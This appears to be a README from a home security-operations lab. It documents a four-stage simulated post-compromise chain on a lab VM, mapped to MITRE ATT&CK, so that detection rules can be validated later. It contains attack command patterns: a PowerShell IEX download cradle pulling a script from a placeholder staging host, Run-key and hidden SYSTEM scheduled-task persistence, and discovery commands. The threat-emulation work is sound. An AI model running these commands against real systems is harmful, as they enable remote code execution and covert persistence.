





# Phase 2: Attack Simulation & Threat Emulation

This phase simulates a multi-stage, post-compromise attack chain against the Phase 1 target host (`vm-soc-target`). Each stage represents a distinct technique commonly observed in real intrusions, executed manually and in sequence so that the resulting telemetry could be verified against expected outcomes before detection rules were built in Phase 3.

The chain progresses through initial execution, two independent persistence mechanisms, and post-compromise discovery — a realistic, if compressed, representation of early-stage attacker behavior on a compromised host.

## Methodology

Each stage was run individually, not batched, so that raw telemetry could be confirmed in the Log Analytics workspace before moving to the next stage. This sequencing also allowed detection logic in Phase 3 to be validated against real, isolated events rather than a mixed batch of activity.

| Stage | Technique | MITRE ATT&CK ID | Tactic |
| :--- | :--- | :--- | :--- |
| 1 | PowerShell download cradle | T1059.001 | Execution |
| 2 | Registry Run key persistence | T1547.001 | Persistence |
| 3 | Scheduled task persistence | T1053.005 | Persistence |
| 4 | Discovery command sequence | T1033 / T1087 / T1082 / T1057 / T1049 | Discovery |

All commands were executed from an elevated PowerShell session on the target host, connected to via Azure Bastion as established in Phase 1.

---

## Stage 1: PowerShell Download Cradle

**Objective:** simulate fileless initial execution — a common technique for delivering a second-stage payload without writing a file to disk first.

**Core command pattern:**
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<staging-host>/payload.ps1')
```

**Execution:**
```powershell
.\stage1-download-cradle.ps1
```



**Expected telemetry:**
- Sysmon Event ID 1 (process creation) with `CommandLine` containing `DownloadString` and `IEX`
- Security Event ID 4688 with the same command-line content, once native process auditing is enabled

---

## Stage 2: Registry Run Key Persistence

**Objective:** establish persistence by writing an entry to a Run key, so a specified program executes automatically at user logon.

**Core command pattern:**
```powershell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
  -Name "InvDB-Ver" `
  -Value "C:\Windows\System32\notepad.exe"
```

**Execution:**
```powershell
.\stage2-persistence-runkey.ps1
```



**Expected telemetry:**
- Sysmon Event ID 13 (registry value set), with `TargetObject` containing `CurrentVersion\Run`

**Note:** the same registry subtree is also used by legitimate Windows components (e.g., application inventory telemetry from `svchost.exe`). Detection logic in Phase 3 filters specifically on the `CurrentVersion\Run` path rather than on Event ID 13 alone, to avoid false positives from this native background noise.

---

## Stage 3: Scheduled Task Persistence

**Objective:** establish an independent, second persistence mechanism, so detection coverage isn't reliant on a single technique.

**Core command pattern:**
```powershell
schtasks /create /tn "LabPersistenceTask" /tr "powershell.exe -WindowStyle Hidden -Command <payload>" /sc onlogon /ru SYSTEM
```

**Execution:**
```powershell
.\stage3-persistence-scheduledtask.ps1
```



**Expected telemetry:**
- Security Event ID 4698 (scheduled task created), which requires the `Other Object Access Events` audit subcategory to be explicitly enabled (see Phase 1) — this is not enabled by default and produces no events until configured
- Sysmon Event ID 1 for the `schtasks.exe` process itself, as a parallel, independent detection source

---

## Stage 4: Discovery Command Sequence

**Objective:** simulate the post-compromise reconnaissance an attacker typically performs immediately after establishing persistence — enumerating the current user, local groups, system configuration, running processes, and network state.

**Core commands:**
```powershell
whoami /user
whoami /groups
whoami /priv
net user
net localgroup
systeminfo
tasklist
netstat
ipconfig /all
```

**Execution:**
```powershell
Start-Sleep -Seconds 30
.\stage4-discovery.ps1
```

A 30-second pause was inserted before this stage to keep its telemetry cleanly separated in time from Stage 3, simplifying verification of each stage independently.





**Expected telemetry:**
- Security Event ID 4688 for each discovery binary invoked (`whoami.exe`, `net.exe`, `systeminfo.exe`, `tasklist.exe`, etc.)
- Detection logic in Phase 3 treats this as a *sequence*, alerting when multiple distinct discovery commands are observed from the same account within a short time window, rather than alerting on any single command in isolation — since each command individually is common in legitimate administrative use.

---

## Verification Approach

For each stage, the same sequence was followed before moving to the next:

1. Run the stage script
2. Wait 3–5 minutes for ingestion
3. Query the Log Analytics workspace directly to confirm the expected raw event landed, before any detection rule existed to catch it
4. Screenshot the execution output and the corresponding raw log entry
5. Only proceed to the next stage once the current stage's telemetry was confirmed

This order — confirm raw telemetry first, build detection logic second — is intentional. It kept each stage's troubleshooting isolated: when a stage's expected event didn't appear (as happened with Stage 3's 4698 events, traced back to a Windows audit policy default covered in Phase 1), the cause was identified against a single known stage rather than a mixed backlog of activity.

## Phase 2 Completion Criteria

**Phase 2 is considered complete when:**

1. All four stages have been executed against the target host.
2. Raw telemetry for each stage has been confirmed in the Log Analytics workspace, via manual KQL query, prior to Phase 3 rule creation.
3. Each stage's execution and corresponding raw log entry has been documented.
4. The environment is ready for detection rule development in Phase 3.

---

***Phase 2 establishes the ground-truth activity that Phase 3's detection rules are built and validated against. Detection logic, rule configuration, and incident correlation are handled in the next phase.***
